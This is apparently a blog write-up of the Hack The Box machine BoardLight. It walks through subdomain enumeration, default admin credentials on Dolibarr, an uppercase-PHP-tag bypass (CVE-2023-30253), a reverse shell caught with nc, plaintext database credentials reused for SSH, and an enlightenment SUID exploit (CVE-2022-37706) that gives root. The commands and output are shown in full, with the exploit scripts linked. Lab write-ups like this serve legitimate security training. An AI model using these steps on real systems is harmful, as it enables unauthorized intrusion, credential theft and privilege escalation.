


## Introduction

From Hack The Box:

> [BoardLight](https://app.hackthebox.com/machines/BoardLight) is an easy difficulty Linux machine that features a `Dolibarr` instance vulnerable to [CVE-2023-30253](https://nvd.nist.gov/vuln/detail/CVE-2023-30253). This vulnerability is leveraged to gain access as `www-data`. After enumerating and dumping the web configuration file contents, plaintext credentials lead to `SSH` access to the machine. Enumerating the system, a `SUID` binary related to `enlightenment` is identified which is vulnerable to privilege escalation via [CVE-2022-37706]( https://nvd.nist.gov/vuln/detail/CVE-2022-37706) and can be abused to leverage a root shell. 

The machine was released on May 25, 2024. I completed the machine on July 14, 2024.

<!--more-->

## Enumeration

Start with a nmap scan:

```console
┌─[eclectic@parrot]─[~]
└──╼ $sudo nmap -sC -sV 10.10.11.11
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-26 16:36 PDT
Nmap scan report for board.htb (10.10.11.11)
Host is up (0.077s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.91 seconds
```

Visiting the website shows a normal looking business page. There are some input fields, but no POST request is made. I also try a `gobuster` scan for additional webpages, but no luck.

We do see the email of the company at the footer of the page: `info@board.htb`. I add the domain `board.htb` to `/etc/hosts` and I try a subdomain scan:

```console
┌─[eclectic@parrot]─[~]
└──╼ $gobuster vhost --append-domain -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://board.htb
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://board.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: crm.board.htb Status: 200 [Size: 6360]
Progress: 4989 / 4990 (99.98%)
===============================================================
Finished
===============================================================
```

A subdomain is found! `crm.board.htb`.

Lets add this to `/etc/hosts` with `echo "10.10.11.11 crm.board.htb" | sudo tee -a /etc/hosts`. 

Visiting the link shows a login page for `Dolibarr`: 



## Foothold

From [Wikipedia](https://en.wikipedia.org/wiki/Dolibarr):

> **Dolibarr ERP CRM** is an open source, free software package for companies of any size, foundations or freelancers. It includes different features for enterprise resource planning (ERP) and customer relationship management (CRM) but also other features for different activities.

I look up online for default credentials for Dolibarr, and I come across [this Dolibarr forum post](https://www.dolibarr.org/forum/t/login-after-installation/16088), which links to [this Dolibarr github issue](https://github.com/Dolibarr/dolibarr/issues/6568). The default credentials for a Dolibarr instance on Docker is `admin/admin`. Inputting these credentials logs me in as Admin. Success!


Doing some research reveals a [PHP exploitation in Dolibarr](https://www.swascan.com/security-advisory-dolibarr-17-0-0/). In the webpage editor, if you input php code without holding permissions to do so, Dolibarr will throw an error and forbid you from saving the code. *But*, if you format the php code as 

```php
<?PHP  ?>
```

instead of

```php
<?php ?>
```

Dolibarr will accept this, mistaking it for some other type of code. Any character in uppercase will work for this.


Now that I can add php code to the webpage, I can inject a reverse shell into the server to gain access. I found a python script that will automatically deploy a reverse shell on Dolibarr [here](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253/blob/main/exploit.py). 

```console
┌─[eclectic@parrot]─[~/Downloads]
└──╼ $python exploit.py http://crm.board.htb admin admin 10.10.16.2 1234
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection

```

```console
┌─[✗]─[eclectic@parrot]─[~]
└──╼ $nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.11] 41660
bash: cannot set terminal process group (868): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ `script /dev/null -c /bin/bash                                                    

www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ script /dev/null -c /bin/bash
<tdocs/public/website$ script /dev/null -c /bin/bash            
Script started, file is /dev/null
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ ls
ls
index.php  styles.css.php
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ 
```

Now I have to find a way to gain more privileges, likely through logging in as a different user.

In the `/html/crm.board.htb/htdocs/conf` directory, there are plaintext credentials for the dolibarr database:

```php
<?php
//
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';

//$dolibarr_main_demo='autologin,autopass';
// Security settings
$dolibarr_main_prod='0';
$dolibarr_main_force_https='0';
$dolibarr_main_restrict_os_commands='mysqldump, mysql, pg_dump, pgrestore';
$dolibarr_nocsrfcheck='0';
$dolibarr_main_instance_unique_id='ef9a8f59524328e3c36894a9ff0562b5';
$dolibarr_mailing_limit_sendbyweb='0';
$dolibarr_mailing_limit_sendbycli='0';

//$dolibarr_lib_FPDF_PATH='';
//$dolibarr_lib_TCPDF_PATH='';
//$dolibarr_lib_FPDI_PATH='';
//$dolibarr_lib_TCPDI_PATH='';
//$dolibarr_lib_GEOIP_PATH='';
//$dolibarr_lib_NUSOAP_PATH='';
//$dolibarr_lib_ODTPHP_PATH='';
//$dolibarr_lib_ODTPHP_PATHTOPCLZIP='';
//$dolibarr_js_CKEDITOR='';
//$dolibarr_js_JQUERY='';
//$dolibarr_js_JQUERY_UI='';

//$dolibarr_font_DOL_DEFAULT_TTF='';
//$dolibarr_font_DOL_DEFAULT_TTF_BOLD='';
$dolibarr_main_distrib='standard';
```

### mysql

We can try to log into the sql database with `mysql`:

```console
<rm.board.htb/htdocs/conf$ mysql -u dolibarrowner -p  
Enter password: serverfun2$2023!!

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 156
Server version: 8.0.36-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```

We find a `llx_user` table, but the rows have the passwords hashed. `hash-identifier` does not find any matches, so we may have to come back to this.

### ssh

I do recall a `ssh` server running. We could try this credential for the `larissa` user:

```console
┌─[✗]─[eclectic@parrot]─[~/Downloads]
└──╼ $ssh 10.10.11.11 -l larissa
larissa@10.10.11.11's password: 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

larissa@boardlight:~$ 
```

Bingo. Remember: never reuse your passwords, kids.

## Privilege Escalation

```console
larissa@boardlight:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
larissa@boardlight:~$ 
```

Checking our `id`:

```console
larissa@boardlight:~$ id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)
```

We can use the following command to find SUID/GUID files, or files that we have special permission to run:

```console
larissa@boardlight:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/sbin/pppd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/sudo
/usr/bin/su
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/vmware-user-suid-wrapper
larissa@boardlight:~$ 

```

One of these files is the `enlightenment` program. Doing some searching on this program reveals a [privilege escalation exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh). Copy the exploit shell and run it:

```console
larissa@boardlight:~$ vi exploit.sh
[INSERT THE EXPLOIT IN VI]
larissa@boardlight:~$ bash exploit.sh
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
# whoami
root
# 
```

```console
# cd /
# ls
bin  boot  cdrom  dev  etc  home  lib  lib32  lib64  libx32  lost+found  media	mnt  opt  proc	root  run  sbin  srv  sys  tmp	usr  var
# cd root
# ls
root.txt  snap
# 
```

## Pwned



## Credit

Credit to `h4stur` on Medium for some help on Privilege Escalation. `h4stur`'s write-up is [here.](https://medium.com/@h4s7ur/hack-the-box-boardlight-walkthrough-0d33b192142a)
